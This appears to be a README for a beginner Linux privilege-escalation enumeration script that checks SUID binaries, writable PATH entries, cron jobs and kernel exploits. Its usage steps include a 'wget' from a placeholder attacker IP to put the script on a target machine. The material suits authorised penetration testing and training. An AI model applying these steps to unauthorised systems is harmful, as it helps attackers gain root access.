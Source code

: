 # Privilege Escalation Helper Tool

This is a beginner-friendly privilege escalation enumeration tool designed for Linux systems. It automatically checks for:
- SUID binaries and matches them against GTFOBins
- Writable paths in $PATH
- Cron jobs
- Kernel version and suggests known exploits using linux-exploit-suggester

## Usage

1. Upload the script to the target machine:
```
wget http://<attacker-ip>/privesc_helper.sh
chmod +x privesc_helper.sh
```
2. (Optional) Place `linux-exploit-suggester.sh` in the same folder.

3. Run the tool:
```
./privesc_helper.sh
```

4. Check the results in `privesc_report.txt`.

## 🖼️ Screenshot

<p align="center">
  <img src="demo.jpg" alt="Auto-privsec Demo Screenshot" width="970px">
</p>


## ⚙️ Requirements


## License

bash
curl
tee

find, grep, awk
MIT License

Copyright (c) 2025 ZAR

Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files (the “Software”), to deal
in the Software without restriction, including without limitation the rights
to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
copies of the Software, and to permit persons to whom the Software is
furnished to do so, subject to the following conditions:

The above copyright notice and this permission notice shall be included in all
copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED “AS IS”, WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM,
OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE
SOFTWARE.


